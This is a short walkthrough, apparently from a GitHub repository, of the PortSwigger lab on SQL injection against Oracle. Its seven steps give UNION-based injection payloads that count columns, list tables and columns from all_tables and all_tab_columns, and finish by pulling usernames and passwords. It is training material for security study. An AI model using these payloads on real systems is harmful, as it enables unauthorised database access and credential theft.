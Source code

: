 # [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error because 2 Column

Step - 4
---
```
' UNION SELECT 'a','a' FROM dual--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM all_tables--
```
1. table_name: `USERS_JASUOU`

Step - 6
---
```
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
```
1. column_name: `USERNAME_GSFFNH` and `PASSWORD_DITWXL`

Step - 7
---
```
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
```
